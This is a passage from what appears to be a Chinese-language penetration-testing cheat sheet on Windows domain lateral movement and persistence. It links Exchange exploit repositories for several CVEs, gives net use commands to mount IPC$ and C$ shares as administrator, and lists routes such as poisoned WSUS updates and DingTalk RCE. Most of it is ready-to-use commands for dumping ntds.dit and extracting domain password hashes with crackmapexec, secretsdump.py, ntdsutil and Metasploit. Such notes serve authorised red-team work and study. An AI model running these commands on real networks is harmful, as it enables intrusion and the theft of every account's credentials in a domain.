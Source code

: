 ##### Exchange的利用

- [**Exchange2domain**](https://github.com/Ridter/Exchange2domain)
- [**CVE-2018-8581**](https://github.com/WyAtu/CVE-2018-8581/)
- [**CVE-2019-1040**](https://github.com/Ridter/CVE-2019-1040)
- [**CVE-2020-0688**](https://github.com/Ridter/CVE-2020-0688)
- [**NtlmRelayToEWS**](https://github.com/Arno0x/NtlmRelayToEWS)
- [**ewsManage**](https://github.com/3gstudent/ewsManage)
- [**CVE-2021-26855**](https://github.com/h4x0r-dz/CVE-2021-26855)
- [**CVE-2021-28482**](https://gist.github.com/testanull/9ebbd6830f7a501e35e67f2fcaa57bda)





## 11.IPC

~~~ABAP
net use \\ip\ipc$ "password" /user:"administrator"
net use \\ip\c$ "password" /user:"administrator"


~~~





## 12.其他横移

~~~
1.向WSUS服务器数据库注入恶意程序更新		WSUSpendu.ps1 # 需要先拿下 WSUS 更新分发服务器

2.MSSQL Trusted Links			use exploit/windows/mssql/mssql_linkcrawler

3.GPO Delegation

4.ADCS

5.钉钉 6.3.5 RCE https://github.com/crazy0x70/dingtalk-RCE

6.向日葵11.1 RCE
~~~







# 10.权限维持

## 拿到域控权限

dump ntds.dit 文件

~~~
crackmapexec smb 127.0.0.1 -u <user> -p <password> -d <domain> --ntds

secretsdump.py '<domain>/<user>:<pass>'@<ip>

ntdsutil "ac i ntds" "ifm" "create full c:\temp" q q

secretsdump.py  -ntds ntds_file.dit -system SYSTEM_FILE -hashes lmhash:nthash LOCAL -outputfile ntlm-extract

windows/gather/credentials/domain_hashdump
~~~

